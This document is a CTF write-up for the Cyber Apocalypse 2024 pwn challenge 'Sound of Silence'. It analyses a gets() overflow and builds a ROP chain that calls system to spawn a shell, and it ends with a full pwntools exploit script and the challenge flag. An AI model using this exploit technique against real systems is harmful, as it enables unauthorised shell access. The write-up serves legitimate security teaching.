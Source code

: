 ```yaml
---
title: "Sound of Silence - Writeup | Cyber Apocalypse 2024"
layout: post
author: Jorge Moreno
category: Easy
---
```


This challenge is part of the event [Cyber Apocalypse 2024: Hacker Royale](../cyber-apocalypse-ctf-2024)

## Challenge Description
---

> Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!
> 

Challenge Author(s): w3th4nds \
Category: **Binary Explotation**  
Difficulty: **Medium**

## TL;DR
---
- In this challenge we take advantage of a gadget that moves the return value of a function inside ``rdi`` register to call ``system`` with ``gets`` as an argument.

## Challenge Solution
---

First, we check the file with ``file`` and ``checksec`` commands:

```console
sound_of_silence: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e2468011150eb76534f79ed

❯ pwn checksec sound_of_silence
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
It does not have stack protector or PIE enabled. We can forget about shellcode because it has NX enabled.

Let's execute it and see what happens:

```console
~The Sound of Silence is mesmerising~

>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./sound_of_silence
```

The program asks for input and after **40** bytes it crashes with ``sigsegv``.  
After decompiling with **Ghidra** we see the code for the only function that it has ``main()``
```c
void main(void)
{
  char buf[32];
  
  system("clear && echo -n \'~The Sound of Silence is mesmerising~\n\n>> \'");
  gets(buf);
  return;
}
```
Looks good! We have a ``gets()`` function, it should be an easy ``ret2libc`` right?

Well we weren't that lucky this time. This binary has no ``plt`` functions other than ``gets@PLT`` and ``system@PLT``. 
```nasm
pwndbg> i fun
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401050  system@plt
0x0000000000401060  gets@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401156  main
0x0000000000401188  _fini
``` 
Let's take a look at the disassembly of the function. 

```nasm
<main>:
   0x0000000000401156 <+0>:     endbr64
   0x000000000040115a <+4>:     push   rbp
   0x000000000040115b <+5>:     mov    rbp,rsp
   0x000000000040115e <+8>:     sub    rsp,0x20
   0x0000000000401162 <+12>:    lea    rax,[rip+0xe9f]        # 0x402008
   0x0000000000401169 <+19>:    mov    rdi,rax
   0x000000000040116c <+22>:    call   0x401050 <system@plt>
   0x0000000000401171 <+27>:    lea    rax,[rbp-0x20]
   0x0000000000401175 <+31>:    mov    rdi,rax
   0x0000000000401178 <+34>:    mov    eax,0x0
   0x000000000040117d <+39>:    call   0x401060 <gets@plt>
   0x0000000000401182 <+44>:    nop
   0x0000000000401183 <+45>:    leave
   0x0000000000401184 <+46>:    ret
```

It loads the string ``clear && echo -n '~The Sound of Silence is mesmerising~\n\n>> '`` into ``rax`` and moves it ``mov rdi, rax``. Then calls ``system``.
The attack will be as follows:
- Use the ``gets()`` function to overflow the buffer and call ``gets()`` again.
- Send ``/bin/sh``
- *ROP* back to ``mov rdi, rax;`` so ``rdi`` has the address of our ``/bin/sh`` string
- Wait for our shell 

> ***NOTE:*** The function's return value is always stored in ``rax`` register.

We can craft our payload with the following structure: ``PADDING + gets@PLT + <mov rdi, rax; system@PLT>``
We can add a ``ret`` gadget for stack aligning purposes.
```python
mov_rdi_rax_system = 0x0000000000401169  # mov rdi, rax; call <system@plt>
offset = 40
ret = 0x000000000040101a

payload = b'A' * offset  
payload += flat(exe.plt.gets) + flat(ret) 
payload += flat(mov_rdi_rax_system)

io.sendlineafter(b'>>', payload)
io.sendline(b'/bin/sh')

io.interactive()
```

But after executing this we see it crashes.
```console
❯ python3 exp.py
 sh: 1: /bin.sh: not found
$  
```

Looks like for whatever reason it turned ``/`` into ``.``
With python console we can see that it is subtracting 1 to the value we send in the 4th position of the string.
```console
❯ python3
Python 3.11.8 (main, Feb  7 2024, 21:52:08) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> ord('/')
47
>>> ord('.')
46
``` 
> ``chr(48) = '0'``  

Then the only thing we have to do now is change ``/bin/sh`` to ``/bin0sh`` and get our flag.

```console
❯ python3 exp.py
 $ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio) ...
```

### Full Script
---

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './sound_of_silence', checksec = False)
context.log_level = 'warning'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("94.237.53.81", 48107)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())
io = start()

mov_rdi_rax_system = 0x0000000000401169  # mov rdi, rax; call <system@plt>
offset = 40
ret = 0x000000000040101a

payload = b'A' * offset  
payload += flat(exe.plt.gets) + flat(ret) 
payload += flat(mov_rdi_rax_system)

io.sendlineafter(b'>>', payload)
io.sendline(b'/bin0sh')

io.interactive()
```
  
**FLAG - HTB{n0_n33d_4_l34k5_wh3n_u_h4v3_5y5t3m}**